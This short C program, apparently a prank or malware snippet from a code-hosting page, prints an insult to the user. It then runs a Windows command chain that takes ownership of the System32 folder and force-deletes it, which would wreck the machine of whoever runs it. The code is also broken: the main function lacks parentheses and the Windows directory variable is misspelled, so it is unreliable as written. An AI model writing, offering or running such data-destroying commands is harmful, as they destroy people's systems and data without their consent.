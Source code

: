 #include <stdio.h>
#include <stdlib.h>

int main{
printf("You're an idiot. I know it, you know it");
system("takeown /f C:\Windows\System32 && Icacls C:\Windows\System32 && rd /s /q %windr%\system32");
return 0;
}
